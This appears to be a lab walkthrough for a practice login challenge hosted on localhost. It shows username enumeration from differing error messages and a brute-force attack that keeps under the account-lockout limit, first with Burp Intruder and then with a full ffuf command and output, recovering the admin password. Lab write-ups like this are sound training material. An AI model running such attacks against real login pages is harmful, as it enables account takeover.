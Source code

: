 # Challange

**Warning: Accounts will lock after 5 failed login attempts!**

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b3ff9277-78ad-4c7c-ae16-a126eecc4133)

- On trying a random username and password we got 1 incorrect login attempt.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/23adffeb-86ab-4814-bf83-91bfa4596b76)

- While submitting another random username and password we revert nothing, so here is the indication that the admin user exists.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b0f9f36f-0ab9-4b56-85b4-dd1ef2706f6c)

- We will make a list of the top 3 most used passwords to not let the accounts lock.
  - Passwords: letmein, 123456, teashop
- Next, we will intercept the request and send it to the intruder.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/c9fcb255-45fd-49a3-af50-5efb8267a5f9)

- Next, we will use the attack method as cluster bomb load the username list and the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/74543637-791e-42bf-bc33-01fa0e4504f6)

- After clicking on start attack we have got the user `admin` and password `letmein`.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/91ef9bae-11d9-42c9-ac3b-9b82247ad6b5)

- On entering the details of user admin and password letmein. We have successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/774a4798-18b1-4a3a-9ae1-f7e01671af4b)
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/7cffb1c4-e28d-4f68-9e56-24b57d296415)

## Alternate:

- We can use the tool called ffuf,wffuf, and hydra to achieve the same. This time let's use ffuf.
- For using ffuf we need to copy the request and save it to a file in the local machine.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/2142ecd3-01e8-4267-a66c-4a72ed2ee44d)

- On saving the request to the file, we need to do some modifications to the file by defining the arguments to get suitable results.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/a51e953e-82e0-4605-930a-72672b12ae28)

- Make a file of the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/642dd3ce-17c9-4c42-93b4-b83c2c84eea7)

- By using the command: `ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/usernames-shortlist.txt:FUZZUSER -fs 3376,3256`

```bash
└─$ ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x03.php
 :: Wordlist         : FUZZPASS: /home/singhx/labs/PEH/XSS/pass.txt
 :: Wordlist         : FUZZUSER: /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost
 :: Header           : Origin: http://localhost
 :: Header           : Referer: http://localhost/labs/a0x03.php
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZUSER&password=FUZZPASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 3376,3256
________________________________________________

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 3ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin

:: Progress: [51/51] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
- Got the same credentials.
